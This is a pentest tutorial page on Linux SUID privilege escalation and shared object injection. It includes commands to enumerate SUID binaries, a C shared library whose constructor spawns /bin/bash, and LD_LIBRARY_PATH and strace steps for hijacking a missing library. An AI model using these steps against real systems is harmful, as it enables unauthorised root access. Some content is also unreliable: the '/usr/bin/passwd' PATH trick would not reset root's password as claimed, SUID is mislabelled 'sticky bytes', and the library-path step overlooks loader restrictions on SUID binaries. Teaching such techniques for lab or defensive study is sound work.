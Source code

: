 # 🛸 SUID

## SUID Privilege Escalation

SUID (Set User ID) is a special permission in Unix-like operating systems that allows users to execute a program with the permissions of its owner. When a binary has the SUID bit set, it runs with the privileges of the binary's owner, often allowing users to perform actions they wouldn't normally be able to do.

<figure><img src="https://miro.medium.com/v2/resize:fit:462/1*1r70GrNPiSPWmQnh7N-LSA.png" alt=""><figcaption></figcaption></figure>

### Understanding SUID

The SUID permission is represented by the numeric value 4 in the permission field of a file. When an executable file has the SUID bit set, it runs with the effective user ID (EUID) of the file's owner.

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 54208 Nov  3  2022 /usr/bin/passwd
```

In the example above, `/usr/bin/passwd` has the SUID bit set. The 's' in the owner's execute permission (`-rwsr-xr-x`) indicates the SUID bit.

### Exploiting SUID for Privilege Escalation

#### 1. Identifying SUID Binaries

```bash
$ find / -type f -perm -4000 2>/dev/null
```

This command lists all files on the system with the SUID bit set. Pay attention to binaries owned by root, as they may provide an opportunity for privilege escalation.

#### 2. Checking Vulnerabilities

Some SUID binaries may have vulnerabilities or misconfigurations that can be exploited. Commonly misconfigured binaries include editors, interpreters, and custom scripts.

```bash
$ strings /path/to/suid_binary
$ ltrace /path/to/suid_binary
$ strace /path/to/suid_binary
```

These commands help analyze the behavior of the binary, providing insights into its functionality and potential vulnerabilities.

Once you found all the files that have the sticky bytes, compare it to the gtfobins database to see which one are vulnerable to known exploits:&#x20;

<figure><img src="../../../../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

#### 3. Exploiting Vulnerabilities

**Example: Exploiting `passwd`**

```bash
$ echo 'root::0:0:root:/root:/bin/bash' > /tmp/passwd
$ PATH=/tmp /usr/bin/passwd
```

In this example, a writable `/tmp/passwd` file is created, and the `PATH` environment variable is manipulated to make `/usr/bin/passwd` use the local directory for executable files. This allows an attacker to change the root user's password without knowing the current password.

#### 4. Using Scripts and Tools

Several tools and scripts automate the process of identifying and exploiting SUID binaries. Examples include [GTFOBins](https://gtfobins.github.io/) and [LinEnum](https://github.com/rebootuser/LinEnum).

### Shared Object Injection <a href="#lecture_heading" id="lecture_heading"></a>

Shared Object Injection is a technique where an attacker exploits the dynamic linking functionality in Unix-based systems to load and execute malicious shared objects (shared libraries). By manipulating the loading process of shared objects, an attacker can achieve privilege escalation and execute arbitrary code with elevated permissions.

#### Understanding Shared Objects

Shared objects, also known as shared libraries, are files containing compiled code and data that multiple programs can use simultaneously. These libraries are loaded at runtime and linked dynamically to the executing process.

#### Identifying Shared Objects

Shared objects typically have file extensions like `.so` on Linux systems. They can be found in directories such as `/lib`, `/lib64`, `/usr/lib`, and others.

```bash
$ find /lib /lib64 /usr/lib -name "*.so*"
```

#### Exploiting Shared Object Injection

#### 1. Identifying Vulnerable Programs

Look for programs that load shared objects without specifying the full path. These programs are susceptible to shared object injection.

```bash
$ ldd /path/to/binary
```

#### 2. Creating a Malicious Shared Object

Write a shared object with malicious code. For example, create a file named `malicious.so` with the following:

<pre class="language-c"><code class="lang-c">// malicious.c
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>

__attribute__((constructor)) void init() {
    system("/bin/bash");
<strong>}
</strong></code></pre>

Compile it:

```bash
$ gcc -fPIC -shared -o malicious.so malicious.c
```

#### 3. Exploiting the Vulnerability

Place the malicious shared object in a directory that is part of the target binary's library search path.

```bash
$ export LD_LIBRARY_PATH=/path/to/directory/containing/malicious.so
$ /path/to/vulnerable/binary
```

#### Real world test:

we know which file to attack in this example:

<figure><img src="../../../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

We are curious to know what this file does:

```
strace /usr/local/bin/suid-so
```

<figure><img src="../../../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

What we hunt for are those "No such file or directory" error messages and write down what file it's trying to access. We can grep on this:

```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

<figure><img src="../../../../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

Our goal is to overwrite a file that is being called but does not exist, such as libcalc.so and inject malicious code in those files
